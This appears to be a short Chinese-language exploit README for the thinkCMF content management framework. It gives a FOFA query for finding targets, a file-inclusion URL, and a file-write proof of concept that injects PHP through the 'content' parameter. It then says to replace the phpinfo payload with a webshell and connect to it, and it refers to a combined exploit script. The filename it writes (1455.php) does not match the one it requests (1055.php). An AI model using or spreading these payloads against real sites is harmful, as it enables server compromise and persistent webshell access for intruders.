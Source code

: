 # FOFA语法：app="thinkCMF"



# thinkCMF文件包含漏洞

## 一、简介

thinkCMF它是一个开源的，支持[swoole](https://so.csdn.net/so/search?q=swoole&spm=1001.2101.3001.7020)的开源内容管理框架，让web开发更快，节约时间，这个框架的话是基于thinkphp的二次开发框架，所以说在我们国内还是有大部分的网站使用到这样的一个框架的。

## 二、漏洞利用

https://xxxx/index.php?a=display&templateFile=README.md

然后我们去到浏览器界面输入README.md回车，就可以发现我们能够成功的包含出这样的一个代码。

![image-20220718140532111](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/image-20220718140532111.png)

证明该文件包含漏洞有效



# thinkCMF文件写入漏洞

## 一、漏洞利用

[https://xx/index.php?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>]()

poc为`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>`

再请求1055.php之后即可看到phpinfo界面

利用时可将`<?php  phpinfo();?>`替换为webshell，写入成功后连接。

![image-20220718142724470](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/image-20220718142724470.png)



## 我将这两个漏洞结合，编写了综合利用脚本，见**ThinkCMF.py**